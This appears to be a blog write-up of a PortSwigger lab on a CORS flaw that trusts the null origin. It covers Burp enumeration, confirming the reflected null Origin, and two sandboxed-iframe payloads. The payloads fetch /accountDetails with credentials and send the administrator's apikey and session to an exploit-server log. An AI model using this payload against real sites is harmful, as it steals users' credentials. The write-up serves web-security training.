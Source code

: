 ```yaml
--- 
title: "CORS Vulnerability With Trusted Null Origin"
author: ""
date: 2024-02-27T14:02:05+01:00
description: ""
draft: false
disableComments: false
categories: []
series: [] #Taxonomy to list "See Also" Section in Opengraph Templates
tags: []
slug: ""
summary: ""
---
```

#### Entities
Asset: https://0a670032044b5555803fcb6d009700d4.web-security-academy.net

#### Enumeration
Access the lab, add the domain - without the protocol scheme - to Burp's Target scope and check `Include subdomains`. View `/` route source page and inspect the page and all embedded links via a script using the given credentials `wiener:peter`.
```shell
# inspect `/` route and embedded links via Burp's Proxy
URL="https://0a670032044b5555803fcb6d009700d4.web-security-academy.net"
for path in $(curl -s $URL | grep -o 'href="[^"]*"' | cut -d'"' -f2); do
  echo "$(curl -skL -x 127.0.0.1:8080 -w "%{http_code} %{url_effective} -> %{redirect_url}" -o /dev/null $URL$path)"
done
```
View result on Burp Proxy's HTTP history, and with FoxyProxy Browser Extension configured for Burp turned on - not the Burp Proxy intercept - browse through the URLs that sticks out, hitting all possible resource you can find. The `/my-account` route which redirects to the `/login` when requested with valid credentials makes a POST request with an `Origin` header; `csrf`, `username` and `password` parameters and a GET request for `/accountDetails` after the login which shows sensitive credentials in the response with the `Access-Control-Allow-Credentials: true` set.

![Enumeration](/images/cors2/01-enumerate-index-route.png)  

#### Exploration
Armed with this insight, send the GET `/accountDetails` to Burp Repeater. Verify a CORS flaw at `/accountDetails` by removing the `Referer` header and adding an `Origin` header switching the value to an arbitrary domain, then null and observe the response reflected the `Access-Control-Allow-Origin` null value. 

![Exploration](/images/cors2/02-explore-null-as-origin.png) 

Now exploit yourself while logged in with the below script.

#### Exploitation
Now exploit yourself while logged in with the below script using the iframe sandbox attribute to simulate null origin.
```shell
<html lang="en">
<body>
  <iframe sandbox="allow-scripts" srcdoc="
    <script>
      async function exploitCORS() {
        const appURL = 'https://0a670032044b5555803fcb6d009700d4.web-security-academy.net/accountDetails';
        const exploitServer = 'http://localhost:8000';
        const response = await fetch(appURL, { credentials: 'include' });
        const data = await response.json();
        fetch(exploitServer + `/?log=${JSON.stringify(data)}`);
      }
      exploitCORS();
    </script>
  "></iframe>
</body>
</html>
```
Start a local server with `python3 -m http.server -b 127.0.0.1 8000 -d .` from within the directory where the above script is saved as index.html. Then run `google-chrome http://127.0.0.1:8000` and see your own credential displayed.

The condition for exploiting this flaw is that the target victim must be logged into their account, such that when they click the payload delivered to them, it gets the content of `/accountDetails` and logs that request to attacker's server. It is important to note that the PortSwigger lab simulates delivering the payload to the target victim and the response received at `/log` path of the exploit server. However in engagement the payload is usually set as a link in seemingly harmless articles or social media post.  
```shell
<html lang="en">
<body>
  <iframe style="display: none;" sandbox="allow-scripts" srcdoc="
  <script>
    var appServer = 'https://0a670032044b5555803fcb6d009700d4.web-security-academy.net'
    var exploitServer = 'https://exploit-0ace0046041055ef8007caf8011c0096.exploit-server.net'
    var xhr = new XMLHttpRequest();
    xhr.open('GET', appServer + '/accountDetails', true);
    xhr.withCredentials = true;
    xhr.onreadystatechange = function() {
      if (xhr.readyState == XMLHttpRequest.DONE && xhr.status == 200) {
        fetch(exploitServer + '/log=' + xhr.responseText)
      }
    };
    xhr.send();
  </script>
  "></iframe>
</body>
</html>
```
Paste the above on the exploit server and deliver exploit to victim.  

![Exploitation](/images/cors2/03-exploit-null-as-origin.png) 

#### Exfiltration
Access the exploit server log and copy the value of `/log=` path. Now run it through a url decoder to extract the apikey.  

![Exfiltration](/images/cors2/04-exfiltrate-null-as-origin-spoil.png) 
```shell
urlencode -d '%7B%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22SeXyl9sj6fIzmk04GGkz7MBPDlfmgDtv%22,%20%20%22sessions%22:%20[%20%20%20%20%22Q8Vn273xIb5fPY7NWmQHW1a1o7SXuJaz%22%20%20]%7D' | jq . | tee cors-vulnerability-with-trusted-null-origin-spoil.json
```
![Solution](/images/cors2/05-lab-solution.png)   

#### Resources
- https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack
- https://github.com/knoxknot/portswigger/tree/main/cors/02-cors-vulnerability-with-trusted-null-origin